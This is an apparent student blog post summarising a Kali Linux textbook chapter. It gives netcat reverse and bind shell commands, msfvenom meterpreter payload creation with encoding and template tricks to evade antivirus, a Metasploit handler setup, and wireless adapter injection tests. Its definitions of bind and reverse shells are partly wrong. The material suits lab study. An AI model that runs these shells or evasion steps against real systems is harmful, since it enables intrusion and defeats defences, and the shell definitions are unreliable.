

Hey it's me again  , I know you've been missing me and I have to same to you as well. Time has changed in my life for the better, I've met the competitive hacking team at another close by University and would love to learn from them as they're seniors in the field of CTF. I want to be by their side and learn from them to grow as a person and a professional penetration tester.

I've also found a job at a college which has amazing architecture, truly wonderful to look at. I will use the funds to help me with travels for Uni, lunch and future projects that you might see on this blog so stay tuned. (^・ω・^ )

Anyways, enough of a life update lets talk Networking and Shells! I will be exploring **Netcat** to create connections between my Kali machine and a victim Windows machine. Will also be going over **Anti-malware evasion techniques** to reduce Virustotal scores when scanning payloads created using scripts. And finally test out my wireless adapter that I got for cheap for packet injection and Monitor mode compatibility with **Aireplay-ng**. 

This ones a short one guys so I'll give it my best, I know I'm only using scripts and pre-made tools yet and not reversing engineering yet but put a bit of trust in me. I have a small flame inside of me, waiting for small chips of wood to be thrown inside to grow bigger into a roaring flame to not only light up my path in dark times but also for others I care about around me.

## 1. Fundamentals of Bind and Reverse Shells
A **reverse shell** is a one way connection from the victim -> attacker, from there they would be able to perform remote code execution or monitor for the victims behaviour, keystrokes, screen sharing and more.

A **binding shell** uses inbound firewall rules meaning that the connection originates from the victim -> attacker.

### 1.2 Creating a Reverse & Binding Shell with Netcat
There is a Windows version of Netcat on Kali at this directory `/usr/share/windows-binaries` which will be uploaded to the victims computer which when executed will open the shell. 

1. Get the file onto the victims machine, for this example we will be connected on the same network and I will be using a Python server to transfer, `cd` into windows-binaries and execute `python3 -m http.server 8080`
2. On victims machine in a browser: `<kaliIP>:8080`

3. Click on `nc.exe` as the victim and close Python web server 
4. Execute the following in a terminal on kali `nc -nlvp 1234` on bob's `nc -nv <kaliIP> 1234 -e cmd.exe`
5. To create a bind shell on kali `nc -nlvp 1234 -e /bin/bash` and on bob's `nc -nv <kaliIP> 1234`, this will allow bob to send commands to kali

ik this above isn't what I've talked about as I've lost the gif for Netcat but here is a payload created by MSF using vnc.exe ^^

## 2. Anti-malware Evasion Techniques
Most Anti malware work in 3 main categories:
- **Signature-base detection:** Anti-malware software will use a database of known malicious code and compare it to scans
- **Behavioural-based detection:** This is where the actions taken by malware is monitored by being placed in a Virtual environment for changes in the system 
- **Heuristic-based:** This is where the anti-malware software uses rules and algorithms to determine if malware has been detected

### 2.1 Encoding Payloads with MSFvenom
1. Using the reverse shell from the Netcat shell executable I will be using MSFvenom which allows for custom payload creation via scripts.
```bash
msfvenom -h                # Help menu
msfvenom --list payloads   # Available Payload list
# Create first payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload.exe
```

2. Putting the `payload.exe` file into https://www.virustotal.com will give out these detection ratings:


Virustotal and other mainstream web scanners will distribute the hash of the payload:

A way to combat my malware being known is by using a no distribution scanner.
3. Using the highest rated encoder and iterating the encoding 9 times:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9
```

Doesn't even lower it by much 😭😭

4. Giving it a executable to encode with the template to mask out anti-malware signature detection
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9 -x /etc/share/windows-binaries/whoami.exe
```

### 2.2 Using Shellter to reduce detection
- Go through the [Wine installation guide](https://wiki.winehq.org/Download) with `wine32` and install Shellter with `sudo apt install shellter`


### 2.3 Using MSF to Send a Reverse Shell Attack
1. Will need to transfer file same method as transferring ncat in part 1.2
2. Will be using metasploitable to listen to the payload 
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 (multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 (multi/handler) > set LHOST <attacker IP>
msf6 (multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 (multi/handler) > exploit
```


(Right-click > Open Image in New Tab)
## 3. Wireless Adaptor Setup
For the final part of this section I will be testing out my wireless adapter which was bought off Aliexpress a long time ago and just resurfaced for this which I'm happy about. 




### 3.1 Different types of Adaptor Modes
There are several modes available for a network adaptor to switch to which all have their separate purposes:
- **Managed mode:** The default type which will allow connections to other AP
- **Monitor mode:** This mode will allow for wireless network scanning and packet injection 
- **Repeater mode:** Echo's a WiFi connection like an extender
- **Master mode:** Allow Linux-based system to operate as APs' 

### 3.2 Changing between Managed and Monitor Mode
There are two main methods to enable monitor and switching back to managed mode: 
- **Manually:** 
```
$ ifconfig wlan0 down
$ iwconfig mode monitor wlan0 
$ ifconfig wlan0 up
```
- **Using airmon-ng:** 
```
$ airmon-ng check kill 
$ airmon-ng start wlan0 
$ airmon-ng stop wlan0
```

### 3.3 Testing for Packet Injection Compatibility
Once in monitor mode I can see if the adaptor has packet injection capabilities with `aireplay-ng -9 wlan0`


Well this pretty much covers everything for the fifth part of ‘The Ultimate Kali Linux Book’ by Glen D. Singh. This was a short one but I learned a bit on the different shell types, using encoders to mask out known exploits by anti-malware software and testing out my wireless adapter for later testing. Glad you had a good read for this one, hope you're doing OK wherever you are. Bye. 
